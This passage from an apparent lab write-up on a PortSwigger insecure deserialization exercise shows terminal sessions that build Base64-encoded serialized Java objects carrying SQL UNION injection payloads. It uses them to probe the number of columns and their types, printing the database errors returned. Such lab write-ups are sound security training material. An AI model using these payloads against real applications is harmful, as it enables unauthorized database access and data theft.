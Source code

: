 ```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:51:13
╰─○ javac Main.java   
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:51:50
╰─○ java Main         
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAPicgVU5JT04gQUxMIFNFTEVDVCBOVUxMLE5VTEwsTlVMTCxOVUxMLE5VTEwsTlVMTCxOVUxMLE5VTEwtLSAt
Deserialized id: ' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:51:52
╰─○ python3 exploit.py
Internal Server Error
java.lang.ClassCastException: Cannot cast data.productcatalog.ProductTemplate to lab.actions.common.serializable.AccessTokenUser
```

**As you can see, when we SELECT 7 columns, it outputs doesn't have the same number of columns. However, 8 columns doesn't have error.**

That being said, the table has 8 columns.

**Then, we need to know which columns are accepting string data type:**
```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:52:03
╰─○ javac Main.java   
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:54:28
╰─○ java Main         
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAZicgVU5JT04gQUxMIFNFTEVDVCAnc3RyaW5nMScsJ3N0cmluZzInLCdzdHJpbmczJywnc3RyaW5nNCcsJ3N0cmluZzUnLCdzdHJpbmc2Jywnc3RyaW5nNycsJ3N0cmluZzgnLS0gLQ==
Deserialized id: ' UNION ALL SELECT 'string1','string2','string3','string4','string5','string6','string7','string8'-- -
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:54:29
╰─○ python3 exploit.py
Internal Server Error
java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type integer: "string4"
  Position: 85
```

4th column is integer.

```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:55:32
╰─○ javac Main.java 
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:55:46
╰─○ java Main       
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAXicgVU5JT04gQUxMIFNFTEVDVCAnc3RyaW5nMScsJ3N0cmluZzInLCdzdHJpbmczJywxLCdzdHJpbmc1Jywnc3RyaW5nNicsJ3N0cmluZzcnLCdzdHJpbmc4Jy0tIC0=
Deserialized id: ' UNION ALL SELECT 'string1','string2','string3',1,'string5','string6','string7','string8'-- -
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:55:47
╰─○ python3 exploit.py
Internal Server Error
java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type integer: "string5"
  Position: 87
```

